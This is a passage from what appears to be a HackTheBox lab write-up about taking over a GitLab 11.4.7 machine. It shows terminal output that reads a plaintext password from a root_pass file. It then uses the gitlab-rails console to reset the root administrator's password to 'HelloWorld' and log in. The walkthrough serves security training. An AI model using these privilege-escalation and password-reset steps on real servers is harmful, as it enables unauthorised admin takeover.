 Also we find interesting pass *root_pass*
```
git@gitlab:/home/dude$ cd /                                                                                                                                                
git@gitlab:/$ cat root_pass                                                                                                                                                
YG65407Bjqvv9A0a8Tm_7w
```

Trying to login with root and fail. Also we failed sign in on GitLab with root.
But I remember, that I can change any password with gitlab-rails console.

```
git@gitlab:/$ cd ~
git@gitlab:~$ cd gitlab-rails/working/
git@gitlab:~/gitlab-rails/working$ gitlab-rails console
-------------------------------------------------------------------------------------
 GitLab:       11.4.7 (98f8423)
 GitLab Shell: 8.3.3
 postgresql:   9.6.8
-------------------------------------------------------------------------------------
Loading production environment (Rails 4.2.10)
irb(main):001:0> User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @root>]>
irb(main):002:0> user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @root>
irb(main):003:0> user.password = 'HelloWorld'
user.password = 'HelloWorld'
=> "HelloWorld"
irb(main):004:0> user.password_confirmation = 'HelloWorld'
user.password_confirmation = 'HelloWorld'
=> "HelloWorld"
irb(main):005:0> user.save!
user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: ba8fffa3-5501-4668-846a-1b17a0e3ef5c) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", gid://gitlab/User/1
=> true
irb(main):006:0> exit
exit
```

And successfully login with **root:HelloWorld**
![](https://github.com/Pash3nlee/HackTheBox/raw/main/images/%D0%B8%D0%B7%D0%BE%D0%B1%D1%80%D0%B0%D0%B6%D0%B5%D0%BD%D0%B8%D0%B5_2021-01-24_190549.png)
